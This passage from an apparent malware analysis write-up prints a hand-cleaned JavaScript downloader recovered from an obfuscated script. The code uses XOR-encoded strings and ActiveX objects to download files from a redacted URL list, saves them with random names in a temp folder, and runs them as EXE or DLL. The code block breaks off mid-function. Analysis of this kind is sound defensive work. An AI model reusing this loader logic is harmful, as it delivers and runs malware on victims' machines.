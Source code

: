 Left was only one function. But what a function! With 1153 LOC it was a bit too much to clean up manually, so I cheated a bit and plonked it into the [Google Closure Compiler](https://closure-compiler.appspot.com/) which cleaned it down to a more manageable 157 lines. After some more manual cleanup, we have this code as a result:

```
var a = xor_hex_charcode_string("__REDACTED_VERY_LONG_STRING__", "MEv6eJH");
a = a.split(",");
var b = [];
for (var f = 0; f < a.length; f++) {
    var d = a[f].split("|");
    var e = d[0], g = d[1];
    var h = parseInt(d[2]);
    var l = d[3];
    if (1 == b[g]) {
    } else {
        var m = xor_hex_charcode_string("20345b2a101e1048242f5d3415", "WG8Xyndf");
        var n = build_activex_object(m), p = xor_hex_charcode_string("2b2e3310023d31232657142034283200013d3d202e1b182c3b39", "XMAyrI");
        var q = build_activex_object(p);
        var r = xor_hex_charcode_string("3e414d2a225a5d2b5f592f3a1c03", "S25GNhs");
        var t = build_activex_object(r), u = xor_hex_charcode_string("22262f02", "MVJleS");
        var v = xor_hex_charcode_string("7f2921", "8luteWSv");
        t[u](v, e, !1);
        var w = xor_hex_charcode_string("43113b22", "0tUFSD");
        t[w]();
        var x = xor_hex_charcode_string("433a00391f4a", "0NaMj9Q");
        if (200 == t[x]) {
            var y = xor_hex_charcode_string("310b2700551c1b27220a2909", "PoHd72hS");
            var z = build_activex_object(y);
            z[u]();
            var A = xor_hex_charcode_string("132f3d15", "gVMp180");
            z[A] = 1;
            var B = xor_hex_charcode_string("2b2424395923340d3b2e3330", "YAWI6MGh");
            var C = xor_hex_charcode_string("19314523193b3c0e20532b02", "kT6SvUO");
            var D = t[B];
            var E = t[C].substr(0, 2);
            if (E == xor_hex_charcode_string("3a3f", "weQaUxy")) {
                var F = xor_hex_charcode_string("3a44180d52", "M6qy7SQ");
                z[F](D);
                var G = xor_hex_charcode_string("503c3647412054302358572a5b3d2746", "7YB41E");
                var H = q[G](2);
                var I = get_random_number();
                if (0 == h) {
                    var J = xor_hex_charcode_string("0f0508", "kidGbO");
                } else {
                    J = xor_hex_charcode_string("3f1f20", "ZgEAah");
                }
                var K = H + "\\" + I + "." + J;
                var L = xor_hex_charcode_string("06524008321f143c1956", "u36mFprU");
                z[L](K);
                var M = xor_hex_charcode_string("0a14284008", "ixG3myt");
                z[M]();
                var N = xor_hex_charcode_string("1f1626", "mcHtqr"), O = xor_hex_charcode_string("101c5a003f04515b", "bi4dSh");
                switch (h) {
                    case 0:
                        n[N](O + " " + K + " " + l, 1, 0);
                        break;
                    case 1:
                        n[N](K, 1, 0);
                }
                b[g] = 1;
            }
```